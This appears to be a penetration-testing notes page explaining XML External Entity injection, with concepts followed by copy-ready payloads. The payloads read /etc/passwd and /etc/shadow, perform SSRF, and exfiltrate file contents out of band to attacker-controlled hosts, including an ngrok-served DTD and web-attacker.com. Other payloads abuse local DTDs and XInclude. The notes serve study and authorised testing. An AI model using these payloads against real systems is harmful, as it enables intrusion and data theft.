





>[!danger]
>An XXE Injection vulnerability occurs due to **unsafe parsing of XML input**, leading to [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md) as well as [Remote Code Execution (RCE)](Remote%20Code%20Execution%20(RCE).md).

# Basic concepts

## XML Entities

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. 
For example, the entities `&lt;` and `&gt;` represent the characters `<` and `>`. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

## Document Type Definition (DTD)

The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. 
The DTD is declared within the optional `DOCTYPE` element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "**internal DTD**") or can be loaded from elsewhere (known as an "**external DTD**") or can be hybrid of the two.

## XML Custom Entities

XML allows custom entities to be defined within the DTD. 

```xml
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

This definition means that any usage of the entity reference `&myentity;` within the XML document will be replaced with the defined value: "`my entity value`".

## XML External Entities

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a URL from which the value of the entity should be loaded.

```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
or
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

## XML Parameter Entities

XML parameter entities are a special kind of XML entity which **can <mark style="background: #FF5582A6;">only</mark> be referenced elsewhere within the DTD**. 
>[!warning]
>In the internal DTD subset, [parameter-entity references](https://www.w3.org/TR/xml/#dt-PERef "Parameter-entity reference") _must not_ occur within [markup declarations](https://www.w3.org/TR/xml/#dt-markupdecl); they may occur where markup declarations can occur. (This does not apply to references that occur in external parameter entities or to the external subset.) [^param-ent]

[^param-ent]: https://www.w3.org/TR/xml/#wfc-PEinInternalSubset

For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

>[!example] Parameter entity example
>```xml
><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
>```

# Exploitation

## Type of XXE attacks

There are various types of XXE attacks:

- [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response [^1] [^2] .
- [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system [^3] .
- [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
- [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.

[^1]: [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md)
[^2]: [Path Traversal](Path%20Traversal.md)
[^3]: [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md)

### XXE: Entity Example

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

### XXE: File Disclosure

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [
<!ENTITY ent SYSTEM "file:///etc/shadow">]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

### XXE: Local File Inclusion

>[!info]
>See also [Path Traversal](Path%20Traversal.md) and [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md) vulnerabilities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

>[!tip]
>With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.


### XXE: Blind Local File Inclusion

>[!info]
>See also [Path Traversal](Path%20Traversal.md) and [File Inclusion (LFI & RFI)](File%20Inclusion%20(LFI%20&%20RFI).md) vulnerabilities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

### XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

>[!info]
>See also [Access control vulnerabilities](Access%20control%20vulnerabilities.md)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

### XXE: SSRF Example

>[!info]
>See also [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md) vulnerabilities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

#### Blind XXE to SSRF to RCE

A blind XXE with SSRF capabilities was used to deploy arbitrary services. After some research in PeopleSoft's `pspc.war`, which contains the Axis instance, it appears the `Deploy` class of the `org.apache.pluto.portalImpl` package contains interesting methods. First, `addToEntityReg(String[] args)` allows us to add arbitrary data at the end of an XML file. Second, `copy(file1, file2)` allows us to copy it anywhere. This is enough to get a shell, by inserting a JSP payload in our XML, and copying it into the webroot. [^xxe2shell]

[^xxe2shell]: [ORACLE PEOPLESOFT REMOTE CODE EXECUTION: BLIND XXE TO SYSTEM SHELL](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce), ambionics.io

Axis call to perform arbitrary GET/POST SOAP requests:
```http
GET /pspc/services/SomeService?method=!--><myMethod+attr="x"><test>y</test></myMethod

--- RESPONSE ---

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <!--><myMethod attr="x"><test>y</test></myMethod>
    </!--><myMethod attr="x"><test>y</test></myMethod>
  </soapenv:Body>
</soapenv:Envelope>
```


### XXE: Remote Attack - Through External Xml Inclusion

Example: [WAFfle-y Order](../../Play%20ground/CTFs/WAFfle-y%20Order.md)

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "{YOUR_NGORK_URL}/ext.dtd">
    %xxe;
]>
<foo>&exfil;</foo>
```
**/ext.dtd**:
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://192.168.1.199/bypass.xml?%data;'>">
%abt;
```

### XXE: retrieve data via error messages

**/external.dtd**:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```



## Blind XXE by repurposing a local DTD

>[!abstract] Bibliography
>From the research [Exploiting XXE with local DTD files](https://portswigger.net/research/top-10-web-hacking-techniques-of-2018#7)

### Locating an existing DTD file to repurpose

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

```xml
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>
```

Non-existing file:



Existing file:



After you have tested a list of common DTD files [^dtd-finder] to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search.

[^dtd-finder]: [dtd-finder list](https://github.com/GoSecure/dtd-finder/tree/master/list?ref=labs.watchtowr.com), GitHub

```bash
$ cat /usr/share/yelp/dtd/docbookx.dtd | head
<!ENTITY % ISOamsa PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Arrow Relations//EN//XML"
"isoamsa.ent">
<!ENTITY % ISOamsb PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Binary Operators//EN//XML"
"isoamsb.ent">
<!ENTITY % ISOamsc PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Delimiters//EN//XML"
"isoamsc.ent">
<!ENTITY % ISOamsn PUBLIC
...
```

Alternatively, it's possible to combine both [Insecure File Upload](Insecure%20File%20Upload.md) and [Information Disclosure](Information%20Disclosure.md) vulnerabilities to upload arbitrary files and use them as local DTD.

### Overwriting an already defined XML parameter

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
	<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
'>
%local_dtd;
]>
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.
- Redefines the XML parameter entity called `custom_entity`, which is already defined in the external DTD file. The entity is redefined as containing the [XXE: retrieve data via error messages](XML%20External%20Entity%20Injection%20(XXE%20Injection).md#XXE:%20retrieve%20data%20via%20error%20messages) payload that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.
- Uses the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.



### XInclude attacks

>[!abstract]
>Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service. 
>
>See [Edge-Side Includes Injection (ESI)](Edge-Side%20Includes%20Injection%20(ESI).md) and [XSLT Injection](Extensible%20Stylesheet%20Language%20Transformations%20Injection%20(XSLT%20Injection).md#XSLT%20Injection) for further references.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an `XInclude` attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```



## Evasion techniques

- [XML encoding](Evading%20Restrictions.md#XML%20encoding)
- [Using different encoding](Evading%20Restrictions.md#Encoding%20examples)
- [XXE: Remote Attack - Through External Xml Inclusion](XML%20External%20Entity%20Injection%20(XXE%20Injection).md#XXE:%20Remote%20Attack%20-%20Through%20External%20Xml%20Inclusion)

---

# Other examples

- [https://github.com/payloadbox/xxe-injection-payload-list](https://github.com/payloadbox/xxe-injection-payload-list)
- [What is XXE (XML external entity) injection? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe)
- [What is a blind XXE attack? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe/blind)
- [WAFfle-y Order](../../Play%20ground/CTFs/WAFfle-y%20Order.md)
- https://www.synack.com/blog/a-deep-dive-into-xxe-injection/
- [Sonny - XXE, You Can Depend on Me](../../Readwise/Articles/Sonny%20-%20XXE,%20You%20Can%20Depend%20on%20Me.md)